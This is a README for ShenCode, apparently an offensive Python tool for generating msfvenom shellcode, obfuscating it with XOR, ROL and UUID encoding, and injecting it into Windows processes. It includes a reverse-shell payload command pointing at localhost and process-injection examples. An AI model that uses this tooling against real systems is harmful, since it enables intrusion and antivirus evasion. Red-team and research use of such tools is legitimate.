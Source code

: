 # ShenCode

A multi purpose tool for shellcode operations

I am developing under Windows. This release brings some compatibility fixes for Kali Linux. `inject` and `ROR2ROL` are Windows dependent. All other features are now available for Kali and maybe other Posix OS.

![](shencode-040.png)

## Features

### Version 0.4.1

- create
	- create shellcodes with msfvenom
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `XOR` encryption
	- `UUID` obfuscation for shellcodes
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new inspect option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Please change the metasploit path in line 10. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| **Command** | **Subcommand** | **Short** | **Description**                                                                       |     |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- | --- |
| create      |                |           | create a shellcode using msfvenom                                                     |     |
|             | --cmd          | -c        | msfvenom command line, use quotation marks and equal sign e.g --cmd=\"-p ...\"        |     |
| encode      |                |           | Shellcode encoding                                                                    |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 |     |
|             | --key          | -rk       | ROL key for encoding                                                                  |     |
|             | --xor          | -x        | use additional XOR encoding                                                           |     |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |     |
|             | --uuid         | -u        | Obfuscate Shellcode as UUID                                                           |     |
| extract     |                |           |                                                                                       |     |
|             | --filename     | -f        | binary input file                                                                     |     |
|             | --outputfile   | -o        | name of the outputfile                                                                |     |
|             | --first-byte   | -fb       | first byte to extract                                                                 |     |
|             | --last-byte    | -lb       | last byte to extract                                                                  |     |
| inject      |                |           | inject shellcode                                                                      |     |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |     |
|             | --processname  | -p        | process name to inject                                                                |     |
|             | --startprocess | -s        | if set, process will be started                                                       |     |
| output      |                |           | create formatted output by filename                                                   |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --lines        | -l        | adding line offsets                                                                   |     |
|             | --syntax       | -s        | formatting the shellcode, choose between `c, casm, cs, hex, inspect, ps1, py`         |     |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |     |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |     |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
